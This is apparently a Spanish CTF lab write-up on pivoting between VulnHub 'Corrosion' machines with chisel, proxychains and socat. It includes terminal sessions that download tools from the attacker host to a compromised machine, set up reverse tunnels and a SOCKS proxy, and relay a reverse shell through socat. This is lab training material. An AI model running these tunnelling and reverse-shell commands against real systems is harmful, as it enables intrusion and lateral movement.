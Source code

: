 # PIVOTING
---
## CHISEL
"Chisel" es una herramienta de red desarrollada por Jpillora, es un tunel de proxy TCP, construido sobre la librería de Go "github.com/aws/aws-sdk-go/aws" y "golang.org/x/net/websocket". Es una herramienta que permite conectarse a una red privada a través de una conexión a Internet pública. `chisel client [server-host] [local-port]:[remote-port]`
Reducción del tamaño de chisel.
```java
┌──(root㉿kali)-[/home/…/CTF/vulnhub/corrosion2/content]
└─# du -hc chisel
7,8M    chisel
7,8M    total                                                                                                                                                                                         
┌──(root㉿kali)-[/home/…/CTF/vulnhub/corrosion2/content]
└─# upx chisel 
                       Ultimate Packer for eXecutables
                          Copyright (C) 1996 - 2020
UPX 3.96        Markus Oberhumer, Laszlo Molnar & John Reiser   Jan 23rd 2020
        File size         Ratio      Format      Name
   --------------------   ------   -----------   -----------
   8077312 ->   3107968   38.48%   linux/amd64   chisel 
Packed 1 file.                                                                                                                                                                               
┌──(root㉿kali)-[/home/…/CTF/vulnhub/corrosion2/content]
└─# du -hc chisel   
3,0M    chisel
3,0M    total
```                            
Nos movemos a la carpeta /dev/shm "optional" y desde ahi descargarmos chisel y dar permisos de ejecución.
```java
bash-5.0#  pwd
/dev/shm
bash-5.0# wget 192.168.200.147/chisel
--2023-01-20 10:19:16--  http://192.168.200.147/chisel
Connecting to 192.168.200.147:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3107968 (3.0M) [application/octet-stream]
Saving to: ‘chisel’
chisel                                         100%[====================================================================================================>]   2.96M  --.-KB/s    in 0.07s   
2023-01-20 10:19:16 (45.2 MB/s) - ‘chisel’ saved [3107968/3107968]
bash-5.0# 
bash-5.0# ls -la
-rw-rw-r--  1 root randy 3107968 Jan 30  2022 chisel
bash-5.0# chmod +x chisel 
bash-5.0# ls -la
-rwxrwxr-x  1 root randy 3107968 Jan 30  2022 chisel
bash-5.0# 
```
Ejecutar chisel desde el servidor, recordar que se debe tener permisos de ejecución.
```java
┌──(root㉿kali)-[/home/…/CTF/vulnhub/corrosion2/content]
└─# ./chisel server --reverse -p 1234
2023/01/20 12:25:24 server: Reverse tunnelling enabled
2023/01/20 12:25:24 server: Fingerprint e/uTC7zOwR/RM4G/wjk+wrwIaSz0UQPLSrDsOZwfAi8=
2023/01/20 12:25:24 server: Listening on http://0.0.0.0:1234
```
Para establecer la conexion pivot desde el equipo `corrosion1`, se debe ejecutar chisel desde el equipo `corrosion2`, y establecer la conexion desde el equipo `192.168.210.129`; estableciendo la `ip:port` se peude hacer la reenvío del servicio publicado en el puerto 80.
```java
bash-5.0# ./chisel client 192.168.200.147:1234 R:80:192.168.210.129:80
2023/01/20 10:30:59 client: Connecting to ws://192.168.200.147:1234
2023/01/20 10:30:59 client: Connected (Latency 1.39229ms)
```
## PROXYCHAINS
Tambien se puede establecer la conexion para todas las comunicaciones desde el equipo corrosion1 mediante sock, redirigir todas las comunicaciones establecidas.
```java
bash-5.0# ./chisel client 192.168.200.147:1234 R:socks
2023/01/20 10:33:45 client: Connecting to ws://192.168.200.147:1234
2023/01/20 10:33:45 client: Connected (Latency 1.129892ms)
```
**Nota.-** Cuando se establece la comunicación mediante socks, se debe configurar la comunicacións `sokcs5` en el archivo `/etc/proxychains4.conf`.
```java
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
# socks4    127.0.0.1 9050
socks5  127.0.0.1 1080
```
## SOCAT
Considerando que no hay comunicación directa, debemos establecer un reenvío de comunicaciones desde el equipo corrosion1 al corrosion2 y de ahi al equipo atacante, para generar una shell reversa del equipo corrosion 1 al equipo atacante, utilizaremos [socats](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat)
```java
┌──(root㉿kali)-[/home/…/CTF/vulnhub/corrosion2/content]
└─# wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat
--2023-01-20 19:47:35--  https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat
Resolviendo github.com (github.com)... 140.82.112.4
Conectando con github.com (github.com)[140.82.112.4]:443... conectado.
Petición HTTP enviada, esperando respuesta... 302 Found
```
Una vez descargado se lo puede importar a la maquina corrosion 2 utilizando un servidor web y descagando con wget, cabe recalcar que se debe establecer permisos de ejecución.
```java
bash-5.0# wget http://192.168.200.147:8888/socat
--2023-01-20 17:57:24--  http://192.168.200.147:8888/socat
Connecting to 192.168.200.147:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 375176 (366K) [application/octet-stream]
Saving to: ‘socat’
socat   100%[====================================================================================================>] 366.38K  --.-KB/s    in 0.006s  
2023-01-20 17:57:24 (63.1 MB/s) - ‘socat’ saved [375176/375176]
bash-5.0# chmod +x socat 
```
Para establecer la comunicación mediante socats ponemos en escucha un puerto y toda la comnunicación que viene por ese puerto sea reenviado al equipo atacante.
```java
bash-5.0# ./socat TCP-LISTEN:4646,fork TCP:192.168.200.147:443
```